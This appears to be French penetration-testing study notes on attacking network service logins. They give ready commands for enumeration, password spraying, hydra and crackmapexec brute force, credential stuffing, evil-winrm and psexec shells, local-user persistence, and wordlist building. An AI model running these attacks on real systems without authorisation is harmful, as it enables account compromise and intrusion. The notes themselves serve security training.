

## Protocoles réseau

| Protocole | Port | Description |
| :--- | :--- | :--- |
| FTP | 21 | File Transfer Protocol |
| SMB/CIFS | 445 | Windows file sharing |
| NFS | 2049 | Linux/Unix file sharing |
| IMAP/POP3 | 143/110 | Email retrieval |
| SSH | 22 | Secure Shell |
| MySQL/MSSQL | 3306/1433 | Databases |
| RDP | 3389 | Remote Desktop |
| WinRM | 5985/5986 | Remote Windows command execution |
| VNC | 5900 | Graphical remote desktop |
| Telnet | 23 | Unsecured terminal access |
| SMTP | 25 | Email sending |
| LDAP | 389 | Directory access |

## Enumération spécifique aux services

L'énumération est une étape critique avant toute attaque par mot de passe. Voir également les notes sur **Footprinting** et **Service Enumeration**.

### LDAP
Utilisation de **ldapsearch** pour extraire des informations sur les utilisateurs et la structure de l'annuaire.

```bash
ldapsearch -x -h <IP> -b "dc=domain,dc=local" -s sub "(objectClass=user)" sAMAccountName
```

### SNMP
Recherche de chaînes de communauté (community strings) par défaut (public/private).

```bash
snmpwalk -v 2c -c public <IP>
```

### RPC
Enumération des utilisateurs et des partages via **rpcclient**.

```bash
rpcclient -U "" -N <IP>
rpcclient $> enumdomusers
```

## Analyse de la politique de verrouillage des comptes (Account Lockout Policy)

> [!danger] Attention au verrouillage des comptes
> Avant tout bruteforce, il est impératif de déterminer si une politique de verrouillage est active pour éviter de bloquer les comptes des utilisateurs.

Sur un domaine Active Directory, cette information peut être obtenue via **crackmapexec** ou **rpcclient** si l'accès invité est autorisé.

```bash
crackmapexec smb <IP> --pass-pol
```

Si le résultat indique un seuil de verrouillage (ex: 5 tentatives), ajustez la vitesse de vos attaques et privilégiez le **Password Spraying**.

## Techniques de Password Spraying

Contrairement au bruteforce qui cible un compte avec de nombreux mots de passe, le spraying cible de nombreux comptes avec un seul mot de passe (souvent saisonnier, ex: `Hiver2023!`). Cela permet de rester sous le seuil de verrouillage.

```bash
crackmapexec smb <IP> -u users.list -p 'Hiver2023!' --continue-on-success
```

Cette technique est détaillée dans les notes sur **Password Attacks**.

## WinRM - Remote Command Execution

> [!warning] Stabilité
> Vérifier la stabilité de la session shell après exploitation.

- Ports : 5985 (HTTP), 5986 (HTTPS)
- Outil : **crackmapexec**

```bash
crackmapexec winrm <IP> -u user.list -p password.list
```

- Shell : **evil-winrm**

```bash
evil-winrm -i <IP> -u <USER> -p <PASS>
```

## SSH - Secure Terminal Access

- Port : 22
- Outil : **hydra**

```bash
hydra -L users.txt -P passwords.txt ssh://<IP>
```

- Connexion :

```bash
ssh user@<IP>
```

## RDP - Graphical Remote Desktop

> [!warning] Risque de plantage
> Utiliser des threads bas (-t 1) pour éviter de faire planter les services RDP.

- Port : 3389
- Outil : **hydra**

```bash
hydra -L users.txt -P passwords.txt rdp://<IP> -t 1
```

- Client : **xfreerdp**

```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASS>
```

## SMB - Windows File Sharing

> [!warning] Risque de plantage
> Utiliser des threads bas (-t 1) pour éviter de faire planter les services SMB.

- Port : 445
- Outil : **hydra**

```bash
hydra -L users.txt -P passwords.txt smb://<IP>
```

- Outil : **Metasploit**

```bash
use auxiliary/scanner/smb/smb_login
set USER_FILE users.txt
set PASS_FILE passwords.txt
set RHOSTS <IP>
run
```

- Enumération :

```bash
crackmapexec smb <IP> -u <USER> -p <PASS> --shares
```

- Accès :

```bash
smbclient -U <USER> \\<IP>\\<SHARE>
```

## Gestion des sessions et persistance

Une fois l'accès initial obtenu (voir **Active Directory Enumeration**), il est crucial de maintenir la session.

- **WinRM** : La session peut expirer. Utiliser des scripts de persistance ou créer un utilisateur local.
- **SMB** : Utiliser `psexec.py` (Impacket) pour obtenir un shell SYSTEM persistant.

```bash
python3 psexec.py <DOMAIN>/<USER>:<PASS>@<IP>
```

## Password Mutations & Wordlist Crafting

> [!info] Qualité vs Vitesse
> La qualité de la wordlist est plus importante que la vitesse de l'attaque.

### Hashcat - Mutation par règle

| Règle | Effet |
| :--- | :--- |
| : | Aucun changement |
| l | Tout en minuscule |
| u | Tout en majuscule |
| c | Majuscule 1ère lettre |
| sXY | Substitue tous les X par Y |
| $! | Ajoute ! à la fin |

- Génération :

```bash
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

### CeWL - Custom Wordlist

```bash
cewl https://site-cible.com -d 3 -m 6 --lowercase -w mots.txt
```

- **-d 3** : profondeur 3
- **-m 6** : mots d’au moins 6 caractères
- **--lowercase** : convertit tout en minuscule
- **-w** : fichier de sortie

## Password Reuse & Credential Stuffing

> [!danger] Verrouillage des comptes
> Attention au verrouillage des comptes lors du bruteforce.

### Hydra - Credential Stuffing

```bash
hydra -C user_pass.list <proto>://<IP>
```

### CrackMapExec - Credential Stuffing

```bash
crackmapexec smb 10.10.10.10 -u user.list -p password.list
crackmapexec winrm 10.10.10.10 -u user.list -p password.list
```

- Automatisation :

```bash
for cred in $(cat user_pass.list); do
  IFS=':' read -r u p <<< "$cred"
  crackmapexec smb 10.10.10.10 -u "$u" -p "$p"
done
```

### Outils de référence

| Outil | Protocole(s) |
| :--- | :--- |
| **crackmapexec** | SMB, WinRM, SSH |
| **hydra** | SSH, RDP, SMB |
| **hashcat** | Mutation de mots de passe |
| **evil-winrm** | WinRM |
| **smbclient** | SMB |
| **cewl** | Génération de wordlist |
```